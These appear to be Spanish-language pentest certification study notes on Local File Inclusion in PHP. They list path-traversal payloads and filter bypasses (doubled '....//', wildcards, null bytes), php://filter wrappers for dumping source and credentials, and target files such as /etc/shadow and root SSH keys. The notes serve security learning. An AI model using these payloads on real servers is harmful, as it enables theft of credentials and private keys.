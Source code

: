 # Local File Inclusion
Es una vulnerabilidad que nos permite visualizar ficheros de la máquina victima a través del navegador web.
Cuando tenemos la opción de vulnerar un LFI  (ejemplo lo pongo después), nos podemos encontrar con restricciones. PHP, que utiliza funciones como ```include```, ```require```, ```include_once``` y ```require_once```, a menudo contribuye a que las aplicaciones web sean vulnerables.

## Sin restricción
Basta con poner el nombre del fichero que queremos leer

## Estando enjaulado en /var/www/html
Basta con volver a la raíz con '../'
```
../../../../..//etc/passwd
```

## Con '../' restringido

Pondriamos doble  '....//' ya que la sanitización eliminaría el primer '../' pero quedaría el segundo
```
....//....//....//....//etc/passwd
```

## Con cadenas de texto concretos restringidos

Si tenemos /etc/passwd restringido por ejemplo, podemos jugar con interrogantes, o incluso con barras o './'
```
....//....//....//....//?tc/p?sswd
....//....//....//....//etc///////////passwd
....//....//....//....//etc/./././passwd
```

Incluso si tenemos restringido, que los ultimos 6 caracteres conicidan con 'passwd'
```
....//....//....//....//etc/./././passwd/.
```
## Con forzado de extensiones (Parcheado a partir de PHP 5.3.4)
si el desarrollador concatena el $filename con por ejemplo .php, el fichero que buscaríamos sería /etc/passwd.php, cosa que no existe. para ello se puede para algunas versiones de PHP aplicar un null byte, con '%00' o '\0'

```
....//....//....//....//etc/passwd%00
....//....//....//....//etc/passwd\0
```
## Cuando no te deja escapar de la carpeta
![imagen](https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/assets/137443771/87a20c84-f98e-4c87-b237-aff774e0a078)

```THM-profile/../../../../../etc/passwd ```


# Jugando con wrappers

Al navegar por un sitio web con php, en la url se hace referencia al fichero, por ejemplo index.php, o about.php. Lo que ocurre que si nos dirigimos a ese fichero, el propio servidor lo va a interpretar y cargará el sitio web.

Para ello jugaremos con un wrapper que nos convierte la petición al fichero php en base64, posteriormente inspeccionamos el código web con 'Clic derecho > inspeccionar'.  y buscamos la cadena en base64. 


Si nos fijamos ```page=courses ``` hace referencia a una página. es común que el código haga una concatenación con la extensión php. de manera que cuando pone page=courses, en realidad se está dirigiendo al fichero courses.php


<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi2.png" />

Teniendo esto claro, podemos jugar con el wrapper ```
```
php://filter/convert.base64-encode/resource=
```

<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi1.png" />

Así estamos accediendo al fichero index.php para ver su contenido. Algo que puede ser útil para visualizar por ejemplo un fichero php de conexión a base de datos, que debe incluir las credenciales de acceso.

también tenemos estos, que nos mostraría directamente el codigo php por pantalla:
```
php://filter/read=string.rot13/resource= 
```
y para descifrar esto, en bash:
```
tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```


Otro ejemplo mas práctico:
```
php://filter/convert.iconv.utf8-utf16/resource=
```

-----------------------------
## Ficheros para testear
* /etc/profile controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived
* /proc/version specifies the version of the Linux kernel
* /etc/passwd has all registered user that has access to a system
* /etc/shadow contains information about the system's users' passwords
* /root/.bash_history contains the history commands for root user
* /var/mail/root all emails for root user
* /root/.ssh/id_rsa Private SSH keys for a root or any known valid user on the server
* /var/log/apache2/access.log the accessed requests for Apache  webserver
